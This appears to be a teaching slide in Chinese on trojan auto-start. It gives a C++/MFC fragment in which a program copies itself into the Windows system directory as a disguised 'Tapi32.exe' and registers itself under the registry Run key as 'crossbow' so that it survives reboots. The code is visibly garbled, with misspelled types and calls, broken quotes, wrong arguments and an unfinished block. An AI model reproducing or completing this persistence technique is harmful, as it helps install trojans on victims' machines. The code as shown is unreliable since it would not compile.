

# 木马自启动功能（利用注册表实现）
Char TempPath[MAX_PATH];
GetSystemDirectory(TempPath, MAX_PATH);
Cstring Systempath=(CString) TempPath;

Cstring commandline=(CString) commandline();
commandline= commandline.Mid(commandline.Find(‘\’”+1)) ;
commandline= commandline.Left(commandline.Find(‘\’”)) ;

CopyFile(commandline.SystemPath+”\\Tapi32.exe”,FALSE);

CRegKey *registry=new CRegKey();
Registry->Open(HKEY_LOCAL_MACHINE,”Software\\Windows\\CurrentVersion\\Run”);

Unsigmed long IRegLength;
Registry->Query Value(TempPath,”crossbow”,&IRegLength);

CString  strTenp  =(CString)TempPath;
If(strTenp!=SystemPath+”\\Tapi32.exe”){
//查找是否有crossbow的键值，并且是否为复制的目录%System%+Tapi32.exe，
//如果不是，写入以上键值内容。
Delete registry;

步骤
自我复制
修改必要配置